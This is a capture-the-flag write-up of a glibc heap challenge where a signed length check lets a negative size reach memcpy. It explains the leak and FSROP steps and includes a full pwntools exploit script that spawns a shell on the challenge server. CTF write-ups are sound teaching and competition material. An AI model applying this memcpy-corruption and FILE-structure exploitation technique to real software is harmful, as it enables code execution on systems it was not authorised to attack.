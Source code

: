 # Intro
This challenge is simple but verbose. The vulnerability is a heap-based `https://github.com/n132/RetroverFlow`, which was found by (@Swing, @leommxj, and @n132) about one year ago. We didn't make it public until I found the challenge author also found that.

The challenge was solved by @zolutal and @n132 in the game.

# Vulnerability
The challenge is actually not such hard if we understand the memcpy behaviors while giving a corrupted third parameter.

The figure in this repo shows the behavior correct (not for avx512, which the challenge used):


- The block size diffs for different CPU feat, I take avx for an example:
- Forward Copying: 0x80 bytes
- Backwards Copying: 0x20 bytes
- Backwards Copying: 0x80 bytes
- Return without crashing

By controling the third parameter of memcpy (`len`), we are able to write arbitrary addresses.

# Challenge 

The challenge only provides two simple primitives
- Allocation from malloc, size<=0x100  (usage limit: 8 times)
- Vulnerable memcpy

The vulnerability comes from a signed value comparison:
```c
printf("len: ");
__isoc99_scanf("%ld", &n);
if ( n <= size_arrary[dst] && n <= size_arrary[src] )// n is a signed int_64
  memcpy(ptr_arrary[dst], ptr_arrary[src], n);
else
  printf("[!] invalid copy size\n");
```


# Soulution 



The first problem is leaking. We have no leaking for this challenge so we have to build a leaking privilege. 
We chose to do `IO_FILE` leaking after partially writing an coppied address on `tcache_entry`. The copied address comes from the House-of-orange free. (we corrupted the top-chunk size and used scanf to allocate a big chunk which gonna free the top chunk).

Then we performed FSROP to get the shell.


# Exp

Author: @zolutal
Success Rate: 1/(1<<12)

```py
from pwn import *
context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
#p=process('./copy_patched')
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)
def cmd(c):
    sla(b"> ",str(c).encode())
def add(size,c=b'\n'):
    cmd(0)
    sla(b": ",str(size).encode())
    if size!=0:
        p.send(c)
def dup(dst,src,l):
    cmd(1)
    sla(b": ",str(dst).encode())
    sla(b": ",str(src).encode())
    sla(b": ",str(l).encode())


attempt_no = 0
while True:
    context.log_level='info'
    attempt_no += 1
    print("Attempt:", attempt_no)

    #with process("./copy_patched") as p:
    with remote('bounty-board.chal.pwni.ng', 1337) as p:
    #with remote('localhost', 1337) as p:
        add(0x100,(b'\1'*0x78+p64(0xbe0)).ljust(0xcc,b'\1').ljust(0x100, b'\0'))#0
        add(0x77)#1
        dup(1,0,-0x100)

        cmd('0'*0x1000)

        #sla(b": ",str(0x10).encode())#2
        #p.send(b'\0'*0x8+p64(0x7ffff7e045c0))
        sla(b": ",str(0xa).encode())#2
        p.send(b'\0'*0x8+p16(0x45c0))

        pay = [2]*0x100
# for x in range(0x80):
#     if x in [72,73]:
#         pay [x]= 1
        payload = b''
        for x in range(0x100):
            payload += p8(pay[x]%0x100)
        add(0x100,payload)#3

        add(0xa,b'\1'*8+p16(0x45c0))#4
        add(0x80)#5

        dup(0,2,-0x8)

        dup(0,3,-0x160)

        try:

            #context.log_level='debug'
            add(0xe7,p64(0x1802)+b'\0'*0x18+b'\n')#5
            leak = p.recvuntil(b"[[ Menu ]]")[6:-13]
        except:
            print("retrying...")
            continue

        print(hexdump(leak))

        try:
            libc_base = u64(leak[0x45f0:0x45f8]) - 0x204644
            print(f"LIBC BASE: {libc_base:#x}")
        except:
            print("retrying from later...")
            continue

        #pause()

        dup(0,3,-0x120)

# STDOUT + 0
# flags
        payload = p32(0xdeadbee0) + b";sh\0"
#payload += b"; sh\0\0\0\0"
        payload += p64(0)
# read_end
        payload += p64((libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000) - 0x68 + 0x18)
# read_base
        payload += p64((libc_base + 0x7ffff7c58750 - 0x00007ffff7c00000))
        payload = payload.ljust(48, b'\0')
        payload += p64((libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000) - 0x68 + 0x28)
        payload = payload.ljust(104, b'\0')
        payload += p64(libc_base + 0x7ffff7c58750 - 0x00007ffff7c00000)
# ... + 136
        payload = payload.ljust(136-8, b'\0')
        payload += p64(libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000)
# lock
        payload += p64(libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000)
# ... + 160
        payload = payload.ljust(160, b'\0')
# wide_data
        payload += p64((libc_base + 0x7ffff7e045c0 - 0x00007ffff7c00000) - 0xe0 + 0x80)
# ... + 216
        payload = payload.ljust(216, b'\0')
# vtable
        payload += p64((libc_base + 0x7ffff7e02228 - 0x00007ffff7c00000) - 0x20)
# ... + 224

        print(hexdump(payload))

        #gdb.attach(p,'bof 0x146F')


        payload += p64(libc_base + 0x00007ffff7e044e0-0x00007ffff7c00000)
        payload += p64(libc_base + 0x00007ffff7e045c0-0x00007ffff7c00000)
        payload += p64(libc_base + 0x00007ffff7e038e0-0x00007ffff7c00000)
        payload += p64(libc_base + 0x00007ffff7ffd000-0x00007ffff7c00000)

        add(0x100, payload)

        dup(6,7,-0x100)

        sl(b'cat /flag')


        p.interactive()

```

